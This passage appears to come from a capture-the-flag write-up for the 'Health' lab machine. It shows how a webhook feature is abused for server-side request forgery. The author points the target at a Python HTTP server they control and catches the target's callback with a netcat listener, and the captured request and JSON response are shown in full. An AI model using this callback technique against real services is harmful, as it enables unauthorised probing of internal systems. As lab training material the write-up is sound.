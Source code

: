 Unfortunately trying to monitor 3000 on the same host does not work, but we can reach out and "monitor" our own address and get the result on another port, e.g. having a webserver on 8000 and a netcat listener on 9000, and we would receive the result of a get from health.htb to ourselved on 8000:
![hook_allowed.png](hook_allowed.png)

from our side this looks like this: 
```bash
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.176 - - [17/Sep/2022 17:30:39] "GET / HTTP/1.0" 200 -
```
```bash
 nc -lvnp 9000                                                                   1 ⨯
listening on [any] 9000 ...
connect to [10.10.14.166] from (UNKNOWN) [10.10.11.176] 33826
POST / HTTP/1.1
Host: 10.10.14.166:9000
Accept: */*
Content-type: application/json
Content-Length: 638

{"webhookUrl":"http:\/\/10.10.14.166:9000","monitoredUrl":"http:\/\/10.10.14.166:8000","health":"up","body":"<!DOCTYPE HTML PUBLIC \"-\/\/W3C\/\/DTD HTML 4.01\/\/EN\" \"http:\/\/www.w3.org\/TR\/html4\/strict.dtd\">\n<html>\n<head>\n<meta http-equiv=\"Content-Type\" content=\"text\/html; charset=utf-8\">\n<title>Directory listing for \/<\/title>\n<\/head>\n<body>\n<h1>Directory listing for \/<\/h1>\n<hr>\n<ul>\n<\/ul>\n<hr>\n<\/body>\n<\/html>\n","message":"HTTP\/1.0 200 OK","headers":{"Server":"SimpleHTTP\/0.6 Python\/3.10.0","Date":"Sat, 17 Sep 2022 16:30:39 GMT","Content-type":"text\/html; charset=utf-8","Content-Length":"297"}}
```
